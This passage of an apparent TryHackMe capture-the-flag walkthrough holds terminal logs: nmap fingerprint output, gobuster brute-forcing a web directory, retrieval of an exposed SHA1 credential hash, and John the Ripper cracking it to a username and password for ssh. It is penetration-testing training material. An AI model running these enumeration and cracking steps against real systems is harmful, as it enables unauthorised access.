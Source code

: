 ```bash
OS:7%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=10A%TI=Z%CI=I%II=I%TS=8)OPS
OS:(O1=M508ST11NW6%O2=M508ST11NW6%O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST1
OS:1NW6%O6=M508ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN
OS:(R=Y%DF=Y%T=40%W=6903%O=M508NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.82 seconds
```
```bash
jeffrowell@kali:~/Documents/TryHackMe/CC: Pen Testing/nikto.txt$ gobuster dir -u http://$IP/secret/ -w /usr/share/wordlists/dirb/common.txt -x txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.191.56/secret/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     txt
[+] Timeout:        10s
===============================================================
2020/05/17 00:16:01 Starting gobuster
===============================================================
/.hta (Status: 403)
/.hta.txt (Status: 403)
/.htaccess (Status: 403)
/.htaccess.txt (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.txt (Status: 403)
/index.html (Status: 200)
/secret.txt (Status: 200)
===============================================================
2020/05/17 00:18:13 Finished
===============================================================
jeffrowell@kali:~/Documents/TryHackMe/CC: Pen Testing/nikto.txt$ curl $IP/secret/secret.txt
nyan:046385855FC9580393853D8E81F240B66FE9A7B8
jeffrowell@kali:~/Documents/TryHackMe/CC: Pen Testing/nikto.txt$ curl $IP/secret/secret.txt | tee user_hash
jeffrowell@kali:~/Documents/TryHackMe/CC: Pen Testing$ cat user_hash
nyan:046385855FC9580393853D8E81F240B66FE9A7B8
jeffrowell@kali:~/Documents/TryHackMe/CC: Pen Testing$ /opt/JohnTheRipper/run/john user_hash --format=raw-sha1
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA1 [SHA1 256/256 AVX2 8x])
Warning: no OpenMP support for this hash type, consider --fork=8
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 2 candidates buffered for the current salt, minimum 8 needed for performance.
nyan             (nyan)
1g 0:00:00:01 DONE 1/3 (2020-05-17 00:25) 0.9174g/s 1.834p/s 1.834c/s 1.834C/s nyan..Nyan
Use the "--show --format=Raw-SHA1" options to display all of the cracked passwords reliably
Session completed
```
Now that we have a username and password, we can ssh into the box and look for the flag:
```bash
```
